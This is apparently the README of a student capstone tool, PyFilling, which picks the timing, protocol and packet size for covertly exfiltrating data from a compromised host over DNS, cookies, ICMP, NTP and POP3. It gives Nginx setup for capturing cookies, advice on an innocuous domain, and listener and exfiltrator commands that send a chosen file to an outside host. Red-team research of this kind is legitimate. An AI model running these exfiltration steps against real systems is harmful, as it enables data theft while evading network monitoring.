 # PyFilling
PyFilling is the Capstone project of  @supermcpeanut, @a-levsky, & @tchrinder. PyFilling was designed to explore the possibility of developing an automated tool that can identify the optimal time, protocol, and packet size to perform data exfiltration on a compromised host based on its normal network traffic.

## Quick Overview
![Alt text](InternalStructure_PyFilling.jpg?raw=true "Internal Structure Overview")

*  Exfiltration Protocols
    *  DNS
    *  HTTP Cookie
    *  HTTPS Cookie
    *  ICMP
    *  NTP
    *  POP3 Authentication

## Installation & Preparation
In order to preform the exfiltration, the following steps are required:

- We wanted to use as few python servers as possible, as such we relied on Nginx to capture incoming cookies
    *  A simple method of installing and configuring Nginx on Ubuntu can be found [here](https://www.digitalocean.com/community/tutorials/how-to-install-nginx-on-ubuntu-16-04 "Digital Ocean Setup")

    *  If Nginx is used the following changes to etc/nginx/nginx.conf are required
```bash
    ##
    # Logging Settings
    ##
    log_format main '"cookies=$http_cookie;"';
    access_log /var/log/nginx/access.log main;
    error_log /var/log/nginx/error.log;
```
*It should be noted that this change will make the access_log only log cookies.*

*Addtionally to properly use our HTTPS exfiltration the server should have a certificate and an innocuous domain name.*

*Certbot makes it trivial to register a cert, found* [here](https://certbot.eff.org/ "Certbot Setup")

## Running the listeners
All the Protocol listeners/servers need to be setup.
```bash
# serve.py:
# "-a", "--address": Used to specify the IP address or domain name
# "-i", "--protocol": Used to specify the listener protocol
# "-s", "--size": Not used anymore, previously used to specify the size of the receiving
python3 serve.py -a "<IP or Domain Name>" -i "DNS"
python3 serve.py -a "<IP or Domain Name>" -i "NTP"
python3 serve.py -a "<IP or Domain Name>" -i "POP3"
python3 serve.py -a "<IP or Domain Name>" -i "ICMP"
```

## Performing exfiltration
Performing exfiltration can be done in one of two methods:

*  By using PAS to conduct packet analysis and automate the exfiltration
```python
pip install -r requirements.txt
./pas.py
```
*  or by using the exfiltrator independently of PAS
```bash
# "-d", "--destination": Used to specify the destination IP address or domain name which the exfiltrated data will be sent too.
# "-f", "--file": Used to specify the file that will be exfiltrated
# "-i", "--protocol": Used to specify the protocol used during exfiltration
# "-s", "--size": Used to specify the size of each packet to be sent
./exfiltrator.exe -d "<IP or Domain Name>" -f "<filename>" -i "protocol" -s <size>
python3 exfiltrator.py -d "<IP or Domain Name>" -f "<filename>" -i "protocol" -s <size>
```

## Acknowledgements
We wanted to thank the following people:

*  Anyone who had to put up with the stress of Adam slowly losing his mind. 
*  Nick for the general guidance & support. 
*  The works of @ytisf made building the exfiltration modules simpler.
*  De Mello Palheta for the immeasurable number of 4-shot americanos consumed.
*  Maker Pizza for the numerous pizzas eaten.
*  Lastly, @bitofeverything for coming up with the name PyFilling.  
